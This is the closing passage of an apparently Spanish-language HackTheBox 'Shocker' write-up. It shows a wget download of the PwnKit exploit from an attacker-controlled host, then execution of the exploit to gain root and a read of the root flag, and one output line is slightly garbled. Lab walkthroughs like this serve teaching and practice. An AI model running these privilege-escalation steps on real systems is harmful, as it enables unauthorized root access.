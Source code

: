 ```bash
  cd /tmp
  shelly@Shocker:/tmp$ wget http://10.10.14.4/PwnKit                             
  --2022-07-20 23:58:12--  http://10.10.14.4/PwnKit
  Connecting to 10.10.14.4:80... connected.s://raw.githubusercontent.com/ly4k/PwnK 
  HTTP request sent, awaiting response... 200 OK
  Length: 18040 (18K) [application/octet-stream]
  Saving to: 'PwnKit'
  
  PwnKit              100%[===================>]  17.62K  79.0KB/s    in 0.2s    
  
  2022-07-20 23:58:12 (79.0 KB/s) - 'PwnKit' saved [18040/18040]
```

Ahora solo debemos dar permisos de ejecución al binario y ejecutarlo para tener un usuario con privilegios elevados.

```bash
  shelly@Shocker:/tmp$ chmod +x PwnKit 
  shelly@Shocker:/tmp$ ./PwnKit 
  root@Shocker:/tmp# whoami
  root
```

Ya no queda más que leer la flag de `root`.

```bash
  # find / -name root.txt 
  /root/root.txt
  # head -c 10 /root/root.txt; echo
  52c2715605
```

¡Hemos logrado completar la máquina `Shocker` de HackTheBox!

<p align="center">
<img src="/assets/images/shocker/05-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
